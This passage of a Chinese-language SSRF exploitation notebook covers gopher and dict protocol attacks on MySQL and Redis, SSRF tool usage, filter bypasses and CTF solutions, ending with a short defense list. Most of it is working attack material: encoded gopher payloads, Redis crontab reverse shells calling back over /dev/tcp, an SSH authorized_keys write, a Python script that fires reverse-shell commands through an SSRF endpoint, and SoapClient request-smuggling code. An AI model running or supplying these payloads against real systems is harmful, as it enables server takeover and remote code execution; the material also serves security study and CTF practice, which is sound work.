http://xx.xx.xx.xx/?url=gopher://127.0.0.1:3306/_%25a3%2500%2500%2501%2585%25a6%25ff%2501%2500%2500%2500%2501%2521%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2572%256f%256f%2574%2500%2500%256d%2579%2573%2571%256c%255f%256e%2561%2574%2569%2576%2565%255f%2570%2561%2573%2573%2577%256f%2572%2564%2500%2566%2503%255f%256f%2573%2505%254c%2569%256e%2575%2578%250c%255f%2563%256c%2569%2565%256e%2574%255f%256e%2561%256d%2565%2508%256c%2569%2562%256d%2579%2573%2571%256c%2504%255f%2570%2569%2564%2505%2532%2537%2532%2535%2535%250f%255f%2563%256c%2569%2565%256e%2574%255f%2576%2565%2572%2573%2569%256f%256e%2506%2535%252e%2537%252e%2532%2532%2509%255f%2570%256c%2561%2574%2566%256f%2572%256d%2506%2578%2538%2536%255f%2536%2534%250c%2570%2572%256f%2567%2572%2561%256d%255f%256e%2561%256d%2565%2505%256d%2579%2573%2571%256c%251d%2500%2500%2500%2503%2575%2573%2565%2520%2566%256c%2561%2567%253b%2573%2565%256c%2565%2563%2574%2520%252a%2520%2566%2572%256f%256d%2520%2566%256c%2561%2567%253b%2501%2500%2500%2500%2501
```



很多情况下，SSRF是没有回显的。
我们可以通过mysql执行select into outfile，当前用户必须存在file权限，以及导出到`secure_file_priv`指定目录下，并且导入目录需要有写权限。
还可以通过udf反弹shell直接执行系统命令。
原理都是利用SSRF拿Gopher协议发送构造好的TCP/IP数据包攻击mysql

因为docker设置了`secure_file_priv=/var/lib/mysql-files/`，偷懒就没有改了，


也可以去读取mysql的配置文件

```
select LOAD_FILE('/etc/mysql/mysql.conf.d/mysqld.cnf');
```

看用户权限

```
select * from information_schema.user_privileges;
```


#### 利用udf提权反弹shell

https://coomrade.github.io/2018/10/28/SSRF攻击MySQL/
http://vinc.top/2017/04/19/mysql-udf提权linux平台/


因为mattrayner/lamp修改`secure-file-priv`失败使用了另外一个docker

docker run --rm -it -p 83:80 -v `pwd`/www:/app janes/alpine-lamp bash


需要将my.ini中的skip-grant-tables选项去掉。

docker修改配置有点麻烦，不知道哪个才是真的配置文件，以后总结一下再来复现2333

UDF提权tips
https://bbs.ichunqiu.com/thread-39697-1-1.html


### 7. Gopher 攻击Redi 计划任务写shell（ubuntu无效）

Redis 任意文件写入现在已经成为十分常见的一个漏洞，一般内网中会存在 root 权限运行的 Redis 服务，利用 Gopher 协议可以攻击内网中的 Redis。


> 这个方法只能`Centos`上使用，`Ubuntu上行不通`，原因如下：
>
> 1. 因为默认redis写文件后是644的权限，但ubuntu要求执行定时任务文件`/var/spool/cron/crontabs/<username>`权限必须是600也就是`-rw-------`才会执行，否则会报错`(root) INSECURE MODE (mode 0600 expected)`，而Centos的定时任务文件`/var/spool/cron/<username>`权限644也能执行
> 2. 因为redis保存RDB会存在乱码，在Ubuntu上会报错，而在Centos上不会报错
>
> 由于系统的不同，crontrab定时文件位置也会不同
> Centos的定时任务文件在`/var/spool/cron/<username>`
> Ubuntu定时任务文件在`/var/spool/cron/crontabs/<username>`
> Centos和Ubuntu均存在的（需要root权限）`/etc/crontab` PS：高版本的redis默认启动是`redis`权限，故写这个文件是行不通的


实验环境：https://github.com/vulhub/vulhub/tree/master/fpm

```
$sudo apt-get update
$sudo apt-get install redis-server
$service redis-server start
$redis-cli
```


[利用redis写webshell](https://www.leavesongs.com/PENETRATION/write-webshell-via-redis-server.html)
先写一个redis反弹shell的bash脚本如下：

```sh
echo -e "\n\n\n*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1\n\n\n"|redis-cli -h $1 -p $2 -x set 1
redis-cli -h $1 -p $2 config set dir /var/spool/cron/
redis-cli -h $1 -p $2 config set dbfilename root
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit
```

该代码很简单，在redis的第0个数据库中添加key为1，value为`\n\n\n*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1\n\n\n\n`的字段。最后会多出一个n是因为echo重定向最后会自带一个换行符。

把接收到的数据转化为gopher数据流

```sh
*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$58%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a
```


需要注意的是，如果要换IP和端口，前面的\$58也需要更改，​\$58表示字符串长度为58个字节，上面的EXP即是`%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1%0a%0a%0a%0a`，3+51+4=58。如果想换成42.256.24.73，那么​\$58需要改成$61，以此类推就行。

```sh
curl -v 'http://127.0.0.1/?url=gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$63%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0asucc%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a'
```

url编码后

```sh
curl -v 'http://127.0.0.1/?url=gopher%3A%2f%2f127.0.0.1%3A6379%2f_%2a3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2463%250d%250a%250a%250a%250a%2a%2f1%20%2a%20%2a%20%2a%20%2a%20bash%20-i%20%3E%26%20%2fdev%2ftcp%2fxxx.xxx.xxx.xxx%2f2333%200%3E%261%250a%250a%250a%250a%250d%250a%2a4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2fvar%2fspool%2fcron%2f%250d%250a%2a4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250asucc%250d%250a%2a1%250d%250a%244%250d%250asave%250d%250a%2a1%250d%250a%244%250d%250aquit%250d%250a'
```


返回了ok，Redis有字段


查看一下`/var/spool/cron/`的root，文件内容有反弹shell命令


因为系统并没有安装crontab，所以手动执行一下，nc会收到回显，但是会报错断开


实验失败
**因为docker是ubuntu系统，而ubuntu下使用redis写crontab是无法成功反弹shell的**


原因参考
https://xz.aliyun.com/t/1800
https://joychou.org/web/hackredis-enhanced-edition-script.html

查看Linux发行版本

```
cat /etc/redhat-release
cat /etc/issue

radhat或centos存在： /etc/redhat-release 这个文件
【 命令 cat /etc/redhat-release 】
ubuntu存在 : /etc/lsb-release 这个文件 
【命令 cat /etc/lsb-release 】
```


实验环境 https://github.com/vulhub/vulhub/tree/master/weblogic/ssrf

生成gopher Payload 脚本：https://xz.aliyun.com/t/5665#toc-8

发送三条redis命令，将弹shell脚本写入/etc/crontab：

```sh
set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/172.18.0.1/21 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

进行url编码：

```
test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.18.0.1%2F21%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

注意，换行符是“\r\n”，也就是“%0D%0A”。
发送请求

```
http://xxx.xxx.xxx.xxx:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.21.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.21.0.1%2F21%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```




查看Redis和`/etc/crontab`成功写入


反弹shell成功

](assets/47LKioL.png)


gopher协议payload

```
gopher://127.0.0.1:6379/_*4%0d%0a%246%0d%0aconfig%0d%0a%243%0d%0aset%0d%0a%243%0d%0adir%0d%0a%2415%0d%0a/var/spool/cron%0d%0a*4%0d%0a%246%0d%0aconfig%0d%0a%243%0d%0aset%0d%0a%2410%0d%0adbfilename%0d%0a%244%0d%0aroot%0d%0a*3%0d%0a%243%0d%0aset%0d%0a%243%0d%0awww%0d%0a%2455%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1%0a%0a%0d%0a*1%0d%0a%244%0d%0asave%0d%0a
```

尝试gopher发现curl 7.19.7版本不支持，挺老的版本


不过我们还可以用dict协议来利用
http://www.cnblogs.com/iamstudy/articles/13th_cuit_game_wp_web300_ssrf.html


### 8. Gopher Redis 绝对路径写shell 

使用Gopherus生成payload即可。


### 9. Gopher Redis 写入 .ssh私钥

此处利用ssh生成一对公私钥，生成的默认文件为id_rsa.pub和id_rsa。把id_rsa.pub上传至服务器即可。我们利用redis把目录设置为ssh目录下：

根据网上写密钥有两种协议可以使用，一种是dict，一种是gopher。测试使用dict协议写不成功，写入后不能连接，此处使用gopher写密钥。

使用的payload为：

```php
gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$401%0d%0a%0a%0a%0assh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/Xn7uoTwU+RX1gYTBrmZlNwU2KUBICuxflTtFwfbZM3wAy/FmZmtpCf2UvZFb/MfC1i......2pyARF0YjMmjMevpQwjeN3DD3cw/bO4XMJC7KnUGil4ptcxmgTsz0UsdXAd9J2UdwPfmoM9%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$11%0d%0a/root/.ssh/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$15%0d%0aauthorized_keys%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a
```

payload 解码为：

```sh
gopher://127.0.0.1:6379/_*3
$3
set
$1
1
$401


ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/Xn7uoTwU RX1gYTBrmZlNwU2KUBICuxflTtFwfbZM3wAy/FmZmtpCf2UvZFb/MfC1i......2pyARF0YjMmjMevpQwjeN3DD3cw/bO4XMJC7KnUGil4ptcxmgTsz0UsdXAd9J2UdwPfmoM9


*4
$6
config
$3
set
$3
dir
$11
/root/.ssh/
*4
$6
config
$3
set
$10
dbfilename
$15
authorized_keys
*1
$4
save
*1
$4
quit
```

payload由joychou的反弹shell修改而来，主要就是替换了写入文件的位置和文件内容。然后修改文件的长度。

然后尝试登陆，输入创建密钥的密码后，登陆成功。


## 0x07 DNS rebinding 重绑定

> ## *DNS重新绑定是计算机攻击的一种形式。在这种攻击中，恶意网页会导致访问者运行客户端脚本，攻击网络上其他地方的计算机。从理论上讲，同源策略可防止发生这种情况：客户端脚本只能访问为脚本提供服务的同一主机上的内容。比较域名是实施此策略的重要部分，因此DNS重新绑定通过滥用域名系统（DNS）来绕过这种保护。*
>
> ## *这种攻击可以通过让受害者的网络浏览器访问专用IP地址的机器并将结果返回给攻击者来破坏专用网络。它也可以用于使用受害者机器发送垃圾邮件，分布式拒绝服务攻击或其他恶意活动。*
>
>  
>
> 简单来说，就是在请求时会先验证请求地址中的域名解析结果，如果为合法地址（例如外网地址）则发送出正式请求，否则就拒绝发出。
>
>    
>
> 例如，在程序请求一个URL 时，程序会先提取出其中的 Host，判断其是否为外网地址，如果是则正式发出请求。
>
>    
>
> 这里就最多存在两次 DNS 解析，一次是程序提取出 Host 进行的一次解析，第二次则是正式发出请求时会再做一次解析。
>
>    
>
> 为什么说是最多存在两次呢，因为很多系统有 DNS 缓存，会依据请求的 TTL(Time To Live，存活时间，下同)进行缓存，例如这一个域名记录的 TTL 是 600 秒，第一次请求与第二次请求之间间隔不足 600 秒的话第二次请求就会直接用第一次请求的结果，那么这两者就当然是一样的了。
>
>   
>
>  那么我们可不可以将这个时间设置为 0，在第一期请求时是一个结果，第二次再做请求时则再去请求一次，这一次请求则返回另外一个结果呢？大部分 DNS 服务商不会允许你将 TTL 设置为0，但如果你将 NS 设置为你自己的服务器之后再尝试做请求的话就可以返回 TTL 为 0 的结果，从而强制客户端请求两次解析，两次解析你服务端也可以控制返回不同的结果了。
>
> 


## 0x08 parse_url、filter_url、curl的特性


## 0x09 php Soapclient 引发的SSRF


## 0x10 利用脚本


### dict协议获取redis反弹shell

```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-
import urllib2,urllib,binascii
url = "http://192.168.0.109/ssrf/base/curl_exec.php?url="
target = "dict://192.168.0.119:6379/"
cmds = ['set:mars:\\\\"\\n* * * * * root bash -i >& /dev/tcp/192.168.0.119/9999 0>&1\\n\\\\"',
       "config:set:dir:/etc/",
       "config:set:dbfilename:crontab",
       "bgsave"]

for cmd in cmds:
    cmd_encoder = ""
    for single_char in cmd:
        # 先转为ASCII
        cmd_encoder += hex(ord(single_char)).replace("0x","")
    cmd_encoder = binascii.a2b_hex(cmd_encoder)
    cmd_encoder = urllib.quote(cmd_encoder,'utf-8')

    payload = url + target + cmd_encoder
    print payload
    request = urllib2.Request(payload)
    response = urllib2.urlopen(request).read()
```


### Soapclient POST报文生成脚本

```php
<?php
$target = 'http://123.206.216.198/bbb.php';
$post_string = 'a=b&flag=aaa';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: xxxx=1234'
    );
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'      => "aaab"));

$aaa = serialize($b);
$aaa = str_replace('^^','%0d%0a',$aaa);
$aaa = str_replace('&','%26',$aaa);
echo $aaa;
?>
```


## 0x11 利用工具

SSRFmap - https://github.com/swisskyrepo/SSRFmap
Gopherus - https://github.com/tarunkant/Gopherus
shellver - https://github.com/0xR0/shellver

sec_tools/common-gopher-tcp-stream/ -https://github.com/firebroo/sec_tools/tree/master/common-gopher-tcp-stream


### SSRFmap

SSRF are often used to leverage actions on other services, this framework aims to find and exploit these services easily. SSRFmap takes a Burp request file as input and a parameter to fuzz.

> Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on their behalf.


#### 端口扫描

```sh
python3 ssrfmap.py -r data/1.txt -p handler -m portscan  | grep open 
```


#### Summary

- [Modules](https://github.com/swisskyrepo/SSRFmap#modules)
- [Install and Manual](https://github.com/swisskyrepo/SSRFmap#install-and-manual)
- [Examples](https://github.com/swisskyrepo/SSRFmap#examples)
- [SSRFmap - Tests](https://github.com/swisskyrepo/SSRFmap#ssrfmap-tests)
- Contribute
  - [Contributors](https://github.com/swisskyrepo/SSRFmap#thanks-to-the-contributors)

#### Modules

The following modules are already implemented and can be used with the `-m` argument.

| Name           | Description                                              |
| -------------- | -------------------------------------------------------- |
| `fastcgi`      | FastCGI RCE                                              |
| `redis`        | Redis RCE                                                |
| `github`       | Github Enterprise RCE < 2.8.7                            |
| `zabbix`       | Zabbix RCE                                               |
| `mysql`        | MySQL Command execution                                  |
| `docker`       | Docker Infoleaks via API                                 |
| `smtp`         | SMTP send mail                                           |
| `portscan`     | Scan top 8000 ports for the host                         |
| `networkscan`  | HTTP Ping sweep over the network                         |
| `readfiles`    | Read files such as `/etc/passwd`                         |
| `alibaba`      | Read files from the provider (e.g: meta-data, user-data) |
| `aws`          | Read files from the provider (e.g: meta-data, user-data) |
| `gce`          | Read files from the provider (e.g: meta-data, user-data) |
| `digitalocean` | Read files from the provider (e.g: meta-data, user-data) |
| `socksproxy`   | SOCKS4 Proxy                                             |
| `smbhash`      | Force an SMB authentication via a UNC Path               |
| `tomcat`       | Bruteforce attack against Tomcat Manager                 |
| `custom`       | Send custom data to a listening service, e.g: netcat     |
| `memcache`     | Store data inside the memcache instance                  |

#### Install and Manual

Basic install from the Github repository.

```sh
$ git clone https://github.com/swisskyrepo/SSRFmap
$ cd SSRFmap/
$ pip3 install -r requirements.txt
$ python3 ssrfmap.py

  usage: ssrfmap.py [-h] [-r REQFILE] [-p PARAM] [-m MODULES] [-l HANDLER]
                    [-v [VERBOSE]] [--lhost LHOST] [--lport LPORT]
                    [--uagent USERAGENT] [--ssl [SSL]] [--level [LEVEL]]

  optional arguments:
    -h, --help          show this help message and exit
    -r REQFILE          SSRF Request file
    -p PARAM            SSRF Parameter to target
    -m MODULES          SSRF Modules to enable
    -l HANDLER          Start an handler for a reverse shell
    -v [VERBOSE]        Enable verbosity
    --lhost LHOST       LHOST reverse shell
    --lport LPORT       LPORT reverse shell
    --uagent USERAGENT  User Agent to use
    --ssl [SSL]         Use HTTPS without verification
    --level [LEVEL]     Level of test to perform (1-5, default: 1)
```

#### Examples

First you need a request with a parameter to fuzz, Burp requests works well with SSRFmap. They should look like the following. More examples are available in the **/data** folder.

```http
POST /ssrf HTTP/1.1
Host: 127.0.0.1:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mysimple.ssrf/
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Connection: close
Upgrade-Insecure-Requests: 1

url=https%3A%2F%2Fwww.google.fr
```

Use the `-m` followed by module name (separated by a `,` if you want to launch several modules).

```sh
# Launch a portscan on localhost and read default files
python ssrfmap.py -r data/request.txt -p url -m readfiles,portscan
```

If you need to have a custom user-agent use the `--uagent`. Some targets will use HTTPS, you can enable it with `--ssl`.

```sh
# Launch a portscan against an HTTPS endpoint using a custom user-agent
python ssrfmap.py -r data/request.txt -p url -m portscan --ssl --uagent "SSRFmapAgent"
```

Some modules allow you to create a connect back, you have to specify LHOST and LPORT. Also SSRFmap can listen for the incoming reverse shell.

```sh
# Triggering a reverse shell on a Redis
python ssrfmap.py -r data/request.txt -p url -m redis --lhost=127.0.0.1 --lport=4242 -l 4242

# -l create a listener for reverse shell on the specified port
# --lhost and --lport work like in Metasploit, these values are used to create a reverse shell payload
```

When the target is protected by a WAF or some filters you can try a wide range of payloads and encoding with the parameter `--level`.

```sh
# --level : ability to tweak payloads in order to bypass some IDS/WAF. e.g: 127.0.0.1 -> [::] -> 0000: -> ...
```


#### SSRFmap Tests

A quick way to test the framework can be done with `data/example.py` SSRF service.

```sh
FLASK_APP=data/example.py flask run &
python ssrfmap.py -r data/request.txt -p url -m readfiles
```


#### Contribute

I ❤️ pull requests :) Feel free to add any feature listed below or a new service.

- Redis PHP Exploitation
- HTTP module (Jenkins ?)

```
gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
```


#### 定制功能模块

The following code is a template if you wish to add a module interacting with a service.

```python
from core.utils import *
import logging

name          = "servicename in lowercase"
description   = "ServiceName RCE - What does it do"
author        = "Name or pseudo of the author"
documentation = ["http://link_to_a_research", "http://another_link"]

class exploit():
    SERVER_HOST = "127.0.0.1"
    SERVER_PORT = "4242"

    def __init__(self, requester, args):
        logging.info("Module '{}' launched !".format(name))

        # Handle args for reverse shell
        if args.lhost == None: self.SERVER_HOST = input("Server Host:")
        else:                  self.SERVER_HOST = args.lhost

        if args.lport == None: self.SERVER_PORT = input("Server Port:")
        else:                  self.SERVER_PORT = args.lport

        # Data for the service
        # Using a generator to create the host list
        # Edit the following ip if you need to target something else
        gen_host = gen_ip_list("127.0.0.1", args.level)
        for ip in gen_host:
            port = "6379"
            data = "*1%0d%0a$8%0d%0aflus[...]%0aquit%0d%0a"
            payload = wrapper_gopher(data, ip , port)

            # Handle args for reverse shell
            payload = payload.replace("SERVER_HOST", self.SERVER_HOST)
            payload = payload.replace("SERVER_PORT", self.SERVER_PORT)

            # Send the payload
            r = requester.do_request(args.param, payload)
```

You can also contribute with a beer IRL or via Github Sponsor button.


### Gopherus

If you know a place which is SSRF vulnerable then, this tool will help you to generate Gopher payload for exploiting SSRF (Server Side Request Forgery) and gaining RCE (Remote Code Execution). And also it will help you to get the Reverse shell on the victim server. And for more information you can get a blog on the same [Blog on Gopherus](https://spyclub.tech/2018/08/14/2018-08-14-blog-on-gopherus/)

#### About

This tool can generate payload for following:

1. MySQL (Port-3306)
2. PostgreSQL(Port-5432)
3. FastCGI (Port-9000)
4. Memcached (Port-11211)
     If stored data is getting De-serialized by:
      \* Python
      \* Ruby
      \* PHP
5. Redis (Port-6379)
6. Zabbix (Port-10050)
7. SMTP (Port-25)

#### Installation

```
chmod +x install.sh
sudo ./install.sh
```

#### Usage

| Command            | Description           |
| ------------------ | --------------------- |
| gopherus --help    | Help                  |
| gopherus --exploit | Arguments can be :    |
|                    | --exploit mysql       |
|                    | --exploit postgresql  |
|                    | --exploit fastcgi     |
|                    | --exploit redis       |
|                    | --exploit zabbix      |
|                    | --exploit pymemcache  |
|                    | --exploit rbmemcache  |
|                    | --exploit phpmemcache |
|                    | --exploit dmpmemcache |
|                    | --exploit smtp        |

#### Examples

- MySQL: If the user is not protected with password you can dump his database and also you can put malicious files in his system.

```sh
gopherus --exploit mysql
```

   It only asks username of the MySQL user and it will provide you gopher link.

- PostgreSQL: If the user is not protected with password you can dump his database and also you can put malicious files in his system.

```sh
gopherus --exploit postgresql
```

   It only asks username of the Postgres user and database name then it will provide you gopher link.

- FastCGI: If port 9000 is open with no security then you can get RCE.

```sh
gopherus --exploit fastcgi
```

   It only asks for a file which must be present in the victim system(preferable .php file), BTW we have default one.

- Redis: If redis port is open then we can overwrite the file in the system which is too dangerous.
  So here is two things you can get:
  a. Reverse Shell
  b. PHP Shell

```sh
gopherus --exploit redis
```

- Zabbix: If port 10050 is open and `EnableRemoteCommands = 1` then you can run shell commands on the victim system.

```sh
gopherus --exploit zabbix
```

- Memcached: It is used for mainly storing serialized data, but when it comes to De-serialize these data then known vulnerability such as PHP De-serialization issue, Python-Pickle De-serialization issue, Ruby-Marshal De-serialization issue comes into picture which can lead to RCE.
  So for each of them I created different scripts and also one script for dumping Memcached content:

```sh
gopherus --exploit pymemcache
gopherus --exploit rbmemcache
gopherus --exploit phpmemcache
gopherus --exploit dmpmemcache
```

- SMTP: If port 25 is open and we can access it then, we can send message to anyone as victim user, So this tool will generate gopher payload for sending mail.

```sh
gopherus --exploit smtp
```


## 0x12 SSRF 各种限制


### 限制为http://www.xxx.com 域名时

可以尝试采用http基本身份认证的方式绕过，http://www.xxx.com@www.xxc.com。
在对@解析域名中，不同的处理函数存在处理差异，例如：
http://www.aaa.com@www.bbb.com@www.ccc.com，在PHP的parse_url中会识别www.ccc.com，而libcurl则识别为www.bbb.com。


## 0x13 SSRF 绕过限制

### 1. 更改 IP 写法


例如192.168.0.1

```
(1)、8进制格式：0300.0250.0.1

(2)、16进制格式：0xC0.0xA8.0.1

(3)、10进制整数格式：3232235521

(4)、16进制整数格式：0xC0A80001
```


还有一种特殊的省略模式，例如10.0.0.1这个IP可以写成10.1

```
1.  http://0/
2.  http://127.1/
3. 利用ipv6绕过，http://[::1]/
4.  http://127.0.0.1./
```


## 0x14 ctf例题

### LCTF-2017-签到题

```php
<?php 
if(!$_GET['site']){ 
	$str = <<<EOD
<html> 
<body> 
look source code: 
<form action='' method='GET'> 
<input type='submit' name='submit' /> 
<input type='text' name='site' style="width:1000px" value="https://www.baidu.com"/> 
</form>
</body>
</html>
EOD;

echo $str;
	die(); 
}

$url = $_GET['site']; 
$url_schema = parse_url($url); 
$host = $url_schema['host']; 
$request_url = $url."/"; 

if ($host !== 'www.baidu.com'){ 
	die("wrong site"); 
}

$ci = curl_init();
curl_setopt($ci, CURLOPT_URL, $request_url);
curl_setopt($ci, CURLOPT_RETURNTRANSFER, 1);
$res = curl_exec($ci);
curl_close($ci);

if($res){ 
	echo "<h1>Source Code:</h1>"; 
	echo $request_url; 
	echo "<hr />"; 
	echo htmlentities($res); 
}else{ 
	echo "get source failed"; 
} 

?>
```

知识点

- 用file协议读取本地文件
- 绕过逻辑中对host的检查, curl是支持file://host/path, file://path这两种形式, 但是即使有host, curl仍然会访问到本地的文件
- 截断url后面拼接的/, GET请求, 用?#都可以

payload

```
file://www.baidu.com/etc/flag?
```


### XMAN-SimpleSSRF

```php
<?php

/*
 * I stored flag at baidu.com
 */

show_source(__FILE__);

if(isset($_GET['url'])){
    $url = parse_url($_GET['url']);
    if(!$url){
        die('Can not parse url: '.$_GET['url']);
    }
    if(substr($_GET['url'], strlen('http://'), strlen('baidu.com')) === 'baidu.com'){
        die('Hey, papi, you have to bypass this!');
    }
    if(
        $url['host'] === 'baidu.com'
    ){
        $ch = curl_init();
        curl_setopt ($ch, CURLOPT_URL, $_GET['url']);
        curl_exec($ch);
        curl_close($ch);
    }else{
        die('Save it, hacker!');
    }
}
```

知识点

- file协议
- 匹配规则

```
php parse_url：
host: 匹配最后一个@后面符合格式的host

libcurl：
host：匹配第一个@后面符合格式的host
```


题目告诉你存在一个flag,要输入一个url。

判断`url[7:15]`是不是等于`baidu.com`，并且要让parse_url()处理过后的得到的`url['host']`强等于`baidu.com`,然后回去curl你输入的网址。


好的我们现在来梳理一下，如果正常的输入`http://baidu.com/flag`,则过不了第一个判断，因为提取出来的url`[7:15]===baidu.com`


如果输入`http://eval.com`则能过第一个，但是过不了第二个，因为`url[‘host’]===eval.com`，所以这里的焦点放在了parse_url上


如何让parse_url提取的`url[‘host’]==baidu.com`，又能让`url[7:15]!=baidu.com`呢，


@符号之前表示user成分，如果有pass,则用:分割虽然这样没有安全性可言,但是这确实是设计url中的一环.


payload

```
file://@baidu.com/flag
```


### NCTF-2018-Hard Php

题目环境：https://github.com/Nu1LCTF/n1ctf-2018/tree/master/source/web/easy_harder_php

https://xz.aliyun.com/t/2148


### LCTF-2018-bestphp’s revenge

题目环境：[https://github.com/LCTF/LCTF2018/tree/master/Writeup/babyphp’s revenge](https://github.com/LCTF/LCTF2018/tree/master/Writeup/babyphp's revenge)

https://www.anquanke.com/post/id/164569#h2-5
https://xz.aliyun.com/t/3336


### 34c3ctf-extract0r

题目环境：https://github.com/eboda/34c3ctf/tree/master/extract0r


### 2020西湖论剑 HelloDiscuzQ


## 0x15 SSRF 防御

> - 限制协议为HTTP/HTTPS
> - 禁止30X跳转
> - 设置URL白名单或者限制内网IP(使用gethostbyname()判断是否为内网IP
> - 服务端开启OpenSSL无法交互利用
> - 服务端需要认证交互
> - 把用于取外网资源的API部署在不属于自己的机房
> - 过滤返回信息,验证远程服务器对请求的响应是比较容易的方法。如果web应用是去获取某一种类型的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准。
> - 限制请求的端口为http常用的端口，比如 80、443、8080、8090
> - 统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态。


## 0x16 利用`DNS`缓存和`TLS`协议进行攻击

**BlackHat2020 议题分析之「When TLS Hacks You」**


> TLS 中的 SessionID 结合 DNS 重绑定进行攻击。
>
>    大致流程如下：
>
> 1. 利用服务器发起一个 HTTPS 请求。
> 2. 请求时会发起一个 DNS 解析请求，DNS 服务器回应一个 TTL 为 0 的结果，指向攻击者的服务器。
> 3. 攻击者服务器响应请求，并返回一个精心构造过的 SessionID，并延迟几秒后回应一个跳转。
> 4. 客户端接收到这个回应之后会进行跳转，这次跳转时由于前面那一次 DNS 解析的结果为 TTL 0，则会再次发起一次解析请求，这次返回的结果则会指向 SSRF 攻击的目标（例如本地的数据库）。
> 5. 因为请求和跳转时的域名都没有变更，本次跳转会带着之前服务端返回的精心构造过的 SessionID 进行，发送到目标的那个端口上。
> 6. 则达到目的，成功对目标端口发送构造过的数据，成功 SSRF。


# 参考资料

- [SSRF学习](https://www.v0n.top/2020/03/01/SSRF%E5%AD%A6%E4%B9%A0/)
- [SSRF 漏洞学习实验环境推荐及过程记录](https://cloud.tencent.com/developer/article/1437452)
- [一篇文章深入学习SSRF漏洞](https://cloud.tencent.com/developer/article/1586099)
- [SSRF圣经](https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit)
- [SSRF 学习记录](https://hackmd.io/@Lhaihai/H1B8PJ9hX#%E5%B7%A5%E5%85%B7)
- [SSRF漏洞中使用到的其他协议（附视频+Py）](https://zhuanlan.zhihu.com/p/115222529)
